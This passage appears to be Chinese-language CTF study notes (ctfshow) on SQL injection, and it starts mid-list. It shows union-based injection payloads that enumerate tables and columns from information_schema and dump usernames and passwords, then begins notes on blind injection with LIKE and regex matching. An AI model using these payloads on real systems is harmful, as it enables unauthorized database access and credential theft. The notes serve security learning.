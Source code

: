 3.判断查询列数，order by, group by



4.查询回显位置 -1' union select 1,2,3 --+

## 1.union 注入

查询表名

```
2' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

查询列名

```
2' union select 1,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user2' --+
```

查询内容

```
2' union select 1,group_concat(id,username,password) from ctfshow_user2 --+
```

## 2.盲注

### sql 内置函数

%在 sql 中统配 N 个字符

_: 统配一个字符

like……%进行模糊匹配

regexp 进行正则匹配

```
正则表达式匹配的字符类
.：匹配任意单个字符。
^：匹配字符串的开始。
$：匹配字符串的结束。
*：匹配零个或多个前面的元素。
+：匹配一个或多个前面的元素。
?：匹配零个或一个前面的元素。
[abc]：匹配字符集中的任意一个字符。
[^abc]：匹配除了字符集中的任意一个字符以外的字符。
[a-z]：匹配范围内的任意一个小写字母。
[0-9]：匹配一个数字字符。
\w：匹配一个字母数字字符（包括下划线）。
\s：匹配一个空白字符。
```



HAVING 子句允许指定条件来过滤将出现在最终结果中的分组结果。
